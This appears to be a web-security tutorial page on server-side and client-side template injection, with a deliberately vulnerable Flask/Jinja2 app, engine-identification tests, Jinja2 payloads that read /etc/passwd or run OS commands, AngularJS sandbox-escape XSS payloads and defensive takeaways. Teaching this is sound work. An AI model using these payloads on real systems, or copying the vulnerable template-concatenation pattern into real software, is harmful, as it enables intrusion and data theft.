


<Callout type="info" title="What is Template Injection? (SSTI & CSTI)">

**Template Injection** occurs when an attacker can inject **user-controlled input into a template**, causing that input to be interpreted by the template engine instead of being treated as ordinary data.

This vulnerability exists in two primary forms:
- **SSTI (Server-Side Template Injection):** The payload is evaluated by the server-side engine (e.g., Jinja2, Twig, Smarty). Depending on the engine and permissions, this can lead to **Remote Code Execution (RCE)** or sensitive data disclosure on the server.
- **CSTI (Client-Side Template Injection):** The payload is evaluated by the browser via client-side frameworks (e.g., AngularJS, Vue.js, Mavo). This bypasses the framework's sandbox and typically degrades into **DOM-based Cross-Site Scripting (XSS)**.

Dynamic web applications often use **templates** to generate pages with user-provided values. If this input is handled insecurely, an attacker may be able to inject template expressions. Because apparently treating user input as code was not enough trouble already.

Template Injection commonly involves:

- Dynamic pages that use server-side or client-side templates.
- User-controlled input being inserted directly into template source code.
- Improper handling, escaping, or sanitization of that input.
- A template engine interpreting attacker-controlled expressions.
- Possible access to sensitive data, client-side account takeover (XSS), or full server-side code execution.

</Callout>

## How SSTI Works

A simplified vulnerable flow looks like this:



A typical SSTI testing and analysis flow looks like this:



The exact impact depends on the **template engine**, the application's implementation, and the permissions available to the server-side process. In some cases, SSTI may only allow limited template manipulation, while in more severe cases it can lead to **sensitive information disclosure or Remote Code Execution (RCE)**.

## Identifying the Template Engine

Different template engines use different expression syntaxes. A harmless arithmetic expression can help determine whether user input is being evaluated as a template expression.

The following diagram illustrates some common syntax patterns and possible engine-identification paths. These patterns are clues, not definitive fingerprints. Engine versions, configuration, and application behavior can affect the results.

```mermaid
flowchart TD
    A["Test expression: $&#123;6*6&#125;"]
    B["Test expression: &#123;*comment*&#125;"]
    C["Test expression: &#123;&#123;6*6&#125;&#125;"]

    E["Smarty"]
    F["Test expression: $&#123;'z'.join('ab')&#125;"]
    G["Mako"]
    H["Unknown engine"]

    I["Test expression: &#123;&#123;7*'7'&#125;&#125;"]
    J["Not vulnerable to this test, or syntax not recognized"]

    K["Jinja2"]
    L["Twig"]
    M["Unknown engine"]

    A --> B
    A --> C

    B --> E
    B --> F
    F --> G
    F --> H

    C --> I
    C --> J

    I --> K
    I --> L
    I --> M

    style A fill:#f4a261,stroke:#333,stroke-width:2px,color:#000
    style B fill:#8bc34a,stroke:#333,stroke-width:1px,color:#000
    style C fill:#8bc34a,stroke:#333,stroke-width:1px,color:#000
    style E fill:#4f79d9,stroke:#333,stroke-width:1px,color:#fff
    style F fill:#4f79d9,stroke:#333,stroke-width:1px,color:#fff
    style G fill:#4f79d9,stroke:#333,stroke-width:1px,color:#fff
    style H fill:#4f79d9,stroke:#333,stroke-width:1px,color:#fff
    style I fill:#4f79d9,stroke:#333,stroke-width:1px,color:#fff
    style J fill:#f4a261,stroke:#333,stroke-width:2px,color:#000
```



<Callout type="warning" title="Interpret test results carefully">

A response containing the expected arithmetic result is evidence that an expression may have been evaluated. A response that does not match the expected result does **not** automatically prove the application is safe. Test expressions in an authorized environment and confirm the behavior before identifying a specific template engine.

</Callout>

## Vulnerable Code Example (Jinja2)

The following Flask application demonstrates a vulnerable pattern: it concatenates user-controlled input into a template string and then asks Jinja2 to render that string.

```python
from flask import Flask, request
from jinja2 import Environment

app = Flask(__name__)
jinja2 = Environment()

@app.route("/home")
def home():
    name = request.values.get("name", "")
    output = jinja2.from_string("hello " + name + "!").render()
    return output

if __name__ == "__main__":
    app.run(host="127.0.0.1", port=8080)
```

Install the dependencies and run the application locally:

```bash
pip install flask jinja2
python script.py
```

Send a normal request:

```bash
curl -g "http://localhost:8080/home?name=CNA"
```

Expected response:

```text
hello CNA!
```

Now test a harmless Jinja2 arithmetic expression:

```bash
curl -g "http://localhost:8080/home?name={{6*6}}"
```

Expected response:

```text
hello 36!
```

The expression is evaluated because the application builds a new template using the user-controlled value. The vulnerable operation is:

```python
jinja2.from_string("hello " + name + "!").render()
```

The application should instead pass user input as **template data**, rather than incorporating it into the template source.

<Callout type="danger" title="Why this code is vulnerable">

Template engines are designed to interpret template syntax. When untrusted input becomes part of the template source, an attacker may be able to control what the engine evaluates. This is different from passing a value to a fixed, trusted template.

</Callout>

## SSTI Payloads

The following examples illustrate why SSTI can be serious. Use them only in a local lab or against systems for which you have explicit authorization. Their behavior depends on the template engine, its version, the application context, and available permissions.

<Accordion title="Jinja2: File Read Examples">

The following expressions illustrate attempts to access a file through objects exposed to a Jinja2 template:

```python
{{''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read()}}
```

```python
{{ get_flashed_messages.__globals__.__builtins__.open("/etc/passwd").read()}}
```

**Important:** These are context-dependent examples, not universal payloads. In particular, the `__mro__` index and `__subclasses__()` index can vary across Python versions and runtime environments. The expressions may fail or behave differently in a real application.

</Accordion>

<Accordion title="Jinja2: Remote Code Execution (RCE) Examples">

The following expression illustrates an attempt to reach Python's import mechanism and execute an operating-system command:

```python
{{
    self.__init__.__globals__.__builtins__.__import__('os').popen('id').read()
}}
```

If it succeeds, the output of `id` reflects the identity of the operating-system user running the application.

The original Flask response-hook example is reproduced below for analysis. **It is incomplete and should not be treated as a working payload.** Its string quoting is malformed, and it references `z` without defining it.

```python
{{
x.__init__.__builtins__.exec("from flask import current_app, after_this_request)
@after_this_request
def hook(*args,**kwargs):
    from flask import make_response
    r = make_response('PWN!')
    return z
"
}}
```

The key security lesson is that a template injection vulnerability may expose objects or capabilities that allow an attacker to move beyond template evaluation. Whether that escalation is possible depends on the application's runtime and security boundaries.

</Accordion>

---

# Client-Side Template Injection (CSTI)

## Vulnerable Code Example (AngularJS)

In AngularJS (version 1.x), template expressions are enclosed in double curly braces `{{ }}`. If user input is rendered inside an element with the `ng-app` directive, Angular will evaluate it.

```html
<div ng-app>
    <!-- If 'userInput' is controlled by the attacker: -->
    <p>Hello, {{ userInput }}</p>
</div>
```

If the application writes untrusted input directly to the DOM (e.g., via `innerHTML` or jQuery `.html()`) within an `ng-app` context, AngularJS will parse it.

### CSTI Payloads

Testing for CSTI follows the same logic as SSTI. You inject an arithmetic expression to see if the framework evaluates it.

```text Basic Detection Payload
{{7*7}}
```
If the page renders `49` instead of `{{7*7}}`, you have confirmed CSTI.

### AngularJS Sandbox Escapes

Modern AngularJS versions implement a "sandbox" to restrict access to dangerous JavaScript functions (like `window` or `eval`). However, this sandbox is not a security boundary and has been bypassed in every version. 

To achieve XSS, an attacker uses a **Sandbox Escape** payload. These payloads use prototype chain traversal (`constructor`, `__proto__`) to reach the `Function` or `eval` object.

<Accordion title="AngularJS Sandbox Escape Examples">
```javascript
// AngularJS 1.0.1 - 1.1.4
{{constructor.constructor('alert(document.domain)')()}}

// AngularJS 1.2.0 - 1.2.1
{{a='constructor';b={};a.sub.call.call(b[a].getPrototypeOf(a.sub),a,'alert(document.domain)')()}}

// AngularJS 1.2.2 - 1.2.5
{{'a]'.constructor.prototype.charAt='[a]'.constructor.constructor;alert(document.domain)}}
```
<Note title="Context Matters">
The exact payload depends heavily on the AngularJS version and whether the input is reflected in an HTML attribute, inside a block, or in a string context.
</Note>
</Accordion>

---

## Real-World SSTI Example

A commonly discussed example of SSTI exploitation is an Uber HackerOne report involving a Flask/Jinja2 template injection vulnerability. In the reported scenario, user-controlled profile information was included in an email generated by the application.

The researcher reportedly changed their profile name to a template expression:

```python
{{ '7' * 7 }}
```

Instead of receiving the literal expression, the resulting email contained:

```text
7777777
```

That behavior suggested the value was being interpreted by a template engine rather than inserted as ordinary text.

The following expressions were also used during investigation of the vulnerability:

```python
{{[].__class__.base.subclasses()}}
{{''.__class__.mro()[1].subclasses()}}
{{c,c,c}}
```

These examples illustrate attempts to inspect Python's object hierarchy and test template evaluation. The exact behavior depends on the runtime and template context.

<Callout type="info" title="Real-world reports">

Treat the scenario above as a summary of the example, not a substitute for the original disclosure. For an accurate account of the affected endpoint, impact, and final remediation, consult the original HackerOne report.

</Callout>

---

## Key Takeaways

- **SSTI occurs when untrusted input is interpreted as template source on the server.**
- **CSTI occurs when untrusted input is interpreted by client-side frameworks (like AngularJS), leading to XSS.**
- Different template engines use different syntax, so expression behavior can help with identification.
- Successful arithmetic evaluation is a useful signal, but it is not proof of a particular engine or of RCE.
- Depending on the implementation, SSTI may expose sensitive data or lead to server-side code execution.
- The safest design is to keep template source trusted and pass user-controlled values as data.
- Use least-privilege permissions and restrict access to sensitive files, environment variables, and operating-system capabilities to limit impact if a template vulnerability exists.

---

## References & Tools

<CardGroup cols={2}>
  <Card title="PortSwigger: AngularJS Sandbox Escapes" icon="shield" href="https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#angularjs-sandbox-escapes-reflected">
    The ultimate cheat sheet for AngularJS CSTI sandbox escapes. Contains payloads for every AngularJS 1.x version.
  </Card>
  <Card title="PortSwigger: SSTI Injection" icon="graduation-cap" href="https://portswigger.net/web-security/server-side-template-injection">
    Comprehensive PortSwigger Web Security Academy guide on Server-Side Template Injection.
  </Card>
  <Card title="Tplmap" icon="github" href="https://github.com/epinna/tplmap">
    **Server-Side Template Injection exploitation tool.**
    An automatic tool that detects and exploits SSTI vulnerabilities across multiple template engines (Jinja2, Twig, Smarty, etc.).
  </Card>
  <Card title="PayloadsAllTheThings: SSTI" icon="bug" href="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection">
    A community-maintained repository of SSTI payloads for various engines and contexts.
  </Card>
</CardGroup>
